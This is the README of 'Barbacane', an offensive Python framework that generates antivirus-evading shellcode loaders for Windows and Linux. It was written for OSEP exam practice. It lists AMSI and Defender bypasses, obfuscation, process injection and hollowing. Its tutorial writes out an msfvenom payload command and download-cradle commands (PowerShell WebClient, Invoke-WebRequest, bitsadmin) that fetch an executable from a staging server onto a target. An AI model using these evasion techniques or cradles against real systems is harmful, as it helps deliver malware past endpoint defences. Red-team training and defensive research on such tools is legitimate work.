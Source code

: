 
```
   ___            _                                
  / __\ __ _ _ __| |__   __ _  ___ __ _ _ __   ___ 
 /__\/// _` | '__| '_ \ / _` |/ __/ _` | '_ \ / _ \
/ \/  \ (_| | |  | |_) | (_| | (_| (_| | | | |  __/
\_____/\__,_|_|  |_.__/ \__,_|\___\__,_|_| |_|\___|
VBA/Powershell/C/++/# Shellcode loader framework +
```
![Python](https://img.shields.io/badge/python-3.11-blue.svg)
![Version](https://img.shields.io/badge/release-1.0-yellow.svg)
[![License](https://img.shields.io/badge/license-MIT-green.svg)](https://opensource.org/licenses/MIT)

A barbican (barbacane [old french], bashoura [arabic]) is a fortified gateway situated over a gate or bridge, which was used for defensive purposes. An ominous doorway to a world of dreams and occult myths.

## [+] Overview

Barbacane is a **framework in Python3** designed to create different types of **shellcode loaders in Powershell, C++, C#, C and VBA from a command-line interface (CLI)** as you go. Most of the generated shellcode loaders are Windows-oriented, but one of them is dedicated to Linux machines.

In addition, Barbacane can run a web server on demand to act as a staging server. Every loader comes with **basic anti-virus bypasses** designed to reliably defeat low-grade anti-virus appliances (AV).

### Philosophy

When starting my OSEP journey, I realized that automating the shellcode loader generation process was mandatory to succeed during the exam. In my mind, the process of manually creating a new code from a second-hand template was far too random and caused mistakes that I didn't want to track during the exam. Barbacane came from this intuition. 

Knowing this background, keep in mind the **following key-facts** before using this framework:
- Barbacane has been organically designed following my researchs and OSEP lessons. Consequently, the **code suffers from a lack of design, flow control, error mangament and optimization**, as well as it could be more Pythonish. Eventually, you will find **some missing features**. Nonetheless, as far as I'm concerned, Barbacane works and provides some valued reliabilty during my journey through the OSEP labs. 
- Every template **contains basic AV bypasses effective against low to intermediate-level anti-virus**. Every template succeeded to bypass a mid-2023 Microsoft Defender. If you want to be stealthier, more research should be performed to improve the payloads. Have fun.
- Barbacane **doesn't compile payloads on demand**. When starting the project, I quickly realized that dealing with this issue would be to hard to overcome. Instead, I recommand to use Barbacane closely with a virtual machine (VM) on Windows and a shared folder. The setup of the VM is your responsability, but it should not take much effort to run properly a Windows with csc.exe and cl.exe installed.
### Features

As a framework, Barbacane offers the following generation capabilities:

- **Shellcode loader in C++** crafted as a PE (.exe) or as a shared library (.dll) for x64 architecture, including:
	- static obfuscation based on XOR encryption
	- behavior analysis bypass, including IAT obfuscation, and prime-number calculation
	- strings from the Edge binary are added to reduce the level of entropy
	
- **Shellcode runner in c crafted as an ELF file for x64 linux systems**  including:
	- static obfuscation based on a XOR encryption
	
- **Shellcode loader in C#** crafted in PE (.exe) or shared library (.dll), both for x64 architecture, including:
	- static obfuscation based on Caesar cypher encryption
	- behavior analysis bypass including sleep timers and non-emulated API detection
	- **on-demand process injection and hollowing capabilities**
	
- **Shellcode loader in Powershell** for x64 architecture, which includes two options of AMSI bypasses:
	- corruption of the context structure that is created by calling _AmsiInitialize_
	- manipulation of a result variable set by _AmsiInitialize_ (coming later)

- **Shellcode loader in VBA based on two different scenario:**
	- a classic shellcode loader fully made in VBA that includes two AV bypass techniques:
		- static obfuscation based on Caesar cypher encryption
		- behavior analysis bypass based on a sleep timer
	- a VBA runner based on WMI that executes a command on the targeted system, such as a powershell payload (why not the runner in Powershell we displayed earlier?). It includes static obfuscation based on masquerading the variables and Caesar cypher encrypting some keywords often flagged as malicious.

- On demand, a **Python3 web server may be initialized to be used as a staging server**. It includes preformatted living-off-the-land commands to download the craddle

## [+] Installation

### Setup:

From your client machine with Python3 up and running:

```bash
# after downloading the project and paste it in /opt (for instance)
cd /opt/barbacane
# Setting a virtualenv
sudo virtualenv barbacane-venv 
source barbacane-venv/bin/activate
# Installing required package
pip3 install colorama
```

## [+] Usage

>[!WARNING]
>If you want to generate a functional loader from Barbacane, **you must use a raw binary shellcode as payload**. No other format is recognized by the framework. You are warned.

First time you run Barbacane ? Fair enough. From the downloaded project, type the following command to learn how to use Barbacane:

`$ python3 barbacane.py --help`

Alternatively, you can follow this short tutorial demonstrating the generation of a simple C++ shellcode loader for Windows:

- **Step1:** generate a payload in raw binary:

`$ msfvenom --platform windows --arch x64  -p windows/x64/messagebox -f raw > /tmp/pld.bin`

- **Step2:** use Barbacane to create a shellcode loader source code

```bash
$ python3 barbacane.py -format C++ -host 192.168.56.1 -port 8080 -pld payload/pld.bin -name output --staging
   ___            _                                
  / __\ __ _ _ __| |__   __ _  ___ __ _ _ __   ___ 
 /__\/// _` | '__| '_ \ / _` |/ __/ _` | '_ \ / _ \ 
/ \/  \ (_| | |  | |_) | (_| | (_| (_| | | | |  __/
\_____/\__,_|_|  |_.__/ \__,_|\___\__,_|_| |_|\___|
+ VBA/Powershell/C/++/# Shellcode loader framework +

+ -- [ Every grave robber gains +30 dodge ] -- +
[*] WARNING: you are using a test payload used for debugging purpose
[*] Creating a c++ Windows shellcode runner (IAT obfuscation, prime-number bypass, adding strings to reduce level of entropy)
[+] Custom c++ template for PE generated
[+] Payload found at payload/pld.bin
[+] Payload XOR encrypted
[+] Payload nested
[+] The template is available at output/output.cpp
[+] >>> Compile on Windows VM using x64VS cli: cl.exe /nologo /Ox /MT /W0 /GS- /DNDEBUG /Tcoutput/output.cpp /link /OUT:output/output.exe /SUBSYSTEM:CONSOLE /MACHINE:x64
[+] Exec on target:
 >>> powershell -ep bypass -nop -c (New-Object System.Net.WebClient).DownloadFile('http://192.168.56.1:8080/output.exe', 'output.exe')
 >>> powershell -ep bypass -nop -c Invoke-WebRequest -Uri http://192.168.56.1:8080/output.exe -OutFile output.exe
 >>> bitsadmin /transfer pwn /download http://192.168.56.1:8080/output.exe output.exe
[*] HTTP server serving at: http:// 192.168.56.1 8080
```

- **Step3:** compile on a dedicated VM using the command submitted by Barbacane and a shared folder where the root folder is ``barbacane/``:

![Pasted image 20240329221651](https://github.com/hex-a-dec/barbacane/assets/152536937/b839e8ff-c753-447d-bd4d-2a1f209feca1)

- **Step4:** download the payload the way you like, execute it and enjoy the view of profit:

![Pasted image 20240330090300](https://github.com/hex-a-dec/barbacane/assets/152536937/d4a3558b-9bc3-49a3-a884-012c45a265da)

Other examples you might want to know:

- generate a shellcode loader as a DLL for a Windows x64:
`$ python3 barbacane.py -format C++ -name mypayload --dll`

- generate a shellcode injector in c# for Windows x64 and specify the process to tamper:
`$ python3 barbacane.py -format C# -name payload --inject -pid explorer -mode inject`

- generate a shellcode loader in Powershell for Windows x64 and run a staging server on port 8080
`$ python3 barbacane.py -format Powershell -name payload --staging -host 192.168.56.1 -port 8080`

>[!CAUTION]
>All templates used by the framework are available in the ``/templates`` folder. The generated payloads are availlable in the ``/output`` folder

## [+] Credits

A special thanks goes to:
- [vanmieghem.io - A blueprint for evading industry leading endpoint protection in 2022](https://vanmieghem.io/blueprint-for-evading-edr-in-2022/), still a masterclass in 2023. i learnt so much reading this blog article
- [Sektor7 - RED TEAM Operator: Malware Development Essentials Course](https://institute.sektor7.net/red-team-operator-malware-development-essentials) A great but not-free resource to jump into the development of shellcode.
- [Offsec - OSEP course](https://www.offsec.com/courses/pen-300/), well Barbacane is all about this course, right ?
- I must admit ChatGPT3.5 extensively helped me to write some cryptographic functions in Python. Thank you CG ;)
